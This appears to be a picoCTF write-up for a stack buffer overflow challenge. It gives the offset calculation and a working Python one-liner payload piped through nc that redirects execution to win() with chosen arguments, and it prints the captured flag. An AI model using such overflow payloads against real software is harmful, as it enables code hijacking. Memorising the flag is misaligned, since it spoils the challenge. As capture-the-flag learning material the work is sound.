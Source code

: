 1. I searched where the functions are stored in memory 
<img width="502" height="132" alt="Screenshot (1712)" src="https://github.com/user-attachments/assets/0bf76674-eaa2-43fa-a79d-830c95bce7e9" />
<img width="564" height="610" alt="Screenshot (1713)" src="https://github.com/user-attachments/assets/8993a0f5-75c5-4d80-aa4c-4406c7ae421a" />
<img width="575" height="607" alt="Screenshot (1714)" src="https://github.com/user-attachments/assets/fc815a7a-6ecb-405f-a643-9b5b237903e0" />

then calculated the offset of the string to overflow it:
100 bytes: buffer
+4 bytes: saved EBP
+4 to +8 bytes: padding/alignment or return address
Offset becomes 112

sent input with 112 A's, the return adress of Win() reversed followed by 4 C's because we dont care about the return adress, and then cafefood & foodfood because thats what the function checks (reversed). after that sending to picoctf with right port and theres our flag!

<img width="1270" height="135" alt="Screenshot (1716)" src="https://github.com/user-attachments/assets/85280fae-b8bc-4ac9-8f6e-0eccb7895d39" />

command:
python -c "import sys; sys.stdout.buffer.write(b'A'*112+b'\x96\x92\x04\x08CCCC\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0'+b'\n')" | nc saturn.picoctf.net 56686

Output:
picoCTF{argum3nt5_4_d4yZ_27ecbf40}DanielD309-picoctf@webshell:~$

Flag:
picoCTF{argum3nt5_4_d4yZ_27ecbf40}
